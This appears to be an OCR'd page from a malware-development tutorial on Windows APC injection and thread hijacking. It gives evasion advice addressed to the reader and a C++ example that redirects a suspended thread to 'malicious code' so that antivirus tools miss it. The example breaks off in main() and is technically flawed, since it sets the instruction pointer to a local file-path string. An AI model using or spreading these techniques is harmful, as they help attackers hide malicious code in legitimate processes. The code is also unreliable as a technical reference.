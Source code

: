 #### Detection Mechanisms
Since APCs are intended for legitimate use, monitoring all queued APCs would produce too many false positives. However, security software can monitor when APCs are used to inject code into unrelated processes or trigger unusual activity.

#### Evasion Techniques
- Use Thread Hijacking: After queuing an APC, hijack the thread to prevent the malicious payload from being visible in memory.
- Hide in Legitimate Threads: Queue your APC to threads within legitimate Windows processes, such as system services, to reduce suspicion.

# Thread Hijacking

#### How it Works
Thread hijacking involves suspending a thread within a target process, modifying its execution context (registers, stack, etc.) to point to malicious code, and resuming the thread. This makes it harder for AV solutions to detect the malicious code, as it is executed by an already running thread.

#### Basic Example of Thread Hijacking
```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int HijackThread(DWORD threadId, const char* maliciousCode) {
    // Step 1: Open the target thread
    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, threadId);
    if (!hThread) {
        std::cerr << "Failed to open thread." << std::endl;
        return -1;
    }

    // Step 2: Suspend the thread
    SuspendThread(hThread);

    // Step 3: Modify the thread's context to point to malicious code
    CONTEXT context;
    context.ContextFlags = CONTEXT_FULL;
    GetThreadContext(hThread, &context);

#ifdef _M_X64
    context.Rip = (DWORD_PTR)maliciousCode;  // On x64
#else
    context.Eip = (DWORD_PTR)maliciousCode;  // On x86
#endif

    SetThreadContext(hThread, &context);

    // Step 4: Resume the thread
    ResumeThread(hThread);

    std::cout << "Thread hijacking successful!" << std::endl;

    // Cleanup
    CloseHandle(hThread);

    return 0;
}

int main() {
    DWORD threadId = 1234;  // Replace with the target thread ID
    const char* maliciousCode = "C:\\path\\to\\malicious_code";  // Path to your malicious code
```